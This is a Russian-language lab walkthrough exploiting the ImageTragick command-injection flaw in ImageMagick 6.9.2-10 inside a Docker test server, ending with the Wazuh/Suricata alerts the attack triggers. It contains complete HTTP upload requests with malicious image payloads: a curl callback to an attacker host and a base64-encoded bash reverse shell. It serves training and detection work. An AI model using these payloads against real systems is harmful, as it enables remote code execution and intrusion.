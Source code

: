 # Imagemagick Command Injection

ImageMagick — это широкий набор инструментов для обработки изображений, многие производители называют эту программу для обработки изображений, включая масштабирование, обрезку, установку водяных знаков, преобразование формата и многого другого. Однако некоторые исследователи обнаружили, что когда пользователь переходит к изображению, содержащему «деформированный контент», это может вызвать уязвимости внедрения команд.

Сотрудники внешней безопасности создали для этого веб-сайт: https://imagetragick.com/ с подробным описанием уязвимости и способах её эксплуатации

### Эксплуатация уязвимости

Для запуска PHP-сервера, включающего в себя Imagemagick 6.9.2-10, выполните команду:

```
docker compose up -d
```

После запуска сервера по адресу `http://ваш-ip:8080/` будет доступна страница с возможностью загрузки файлов

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно отправить POST-запрос с полезной нагрузкой:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 312

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "10.10.11.130:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

Видно, что после его отправки мы получили http-запрос

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

С помощью данной уязвимости мы можем получить обратную оболочку, отправив следующий запрос:

```
POST / HTTP/1.1
Host: 10.10.11.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: http://10.10.11.130:8080
Connection: close
Referer: http://10.10.11.130:8080/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 378

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= | base64 -d | bash`"||id " )'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

\*\*\*

Здесь c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTEuMTQ1LzQ0NDQgMD4mMQo= - это закодированная в base64 полезная нагрузка для получения обратной оболочки

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Сгенерировать свою собственную нагрузку можно на [https://www.revshells.com/](https://www.revshells.com/)

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

\*\*\*

После отправки запроса с созданным пэйлоадом мы можем получить обратную оболочку поднятого контейнера

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
